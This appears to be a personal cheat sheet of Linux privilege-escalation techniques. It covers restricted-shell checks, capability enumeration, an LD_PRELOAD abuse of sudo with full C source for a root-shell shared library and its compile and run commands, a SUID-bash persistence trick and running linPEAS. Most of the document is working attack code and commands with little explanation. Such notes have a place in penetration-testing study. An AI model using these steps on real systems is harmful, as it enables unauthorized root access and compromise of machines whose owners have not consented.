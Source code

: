 https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

https://www.exploit-db.com/papers/33930

## Check if we are in a restricted shell

	echo $SHELL		returns the default shell
	echo $0		returns the current shell

If it is a restricted shell we might need to escape

## Enumerate Capabilities

	find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

Some capabilites set to a process my allow to escalate to root

## Check Shared libraries

If by doing sudo -l , the env variable has env_keep+=LD_PRELOAD and we can use a command as sudo like /usr/sbin/apache2, and this command doesnt have a gtfobin, we can use the LD_PRELOAD of the librarie to load code before the executing of the command as sudo like:

	#include <stdio.h>
	#include <sys/types.h>
	#include <stdlib.h>

	void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
	}

Compiling it like 

	gcc -fPIC -shared -o root.so root.c -nostartfiles

And then doing

	sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

	Remember to specify the complete path to root.so

## If we find a way to run a command as root

	We can do chmod +s /bin/bash and then we the unprivilege account do /bin/bash -p to get a bash as root


## Run linPEAS script

	https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
	
	./linpeas.sh

## Relevante Information

	https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
	https://gtfobins.github.io/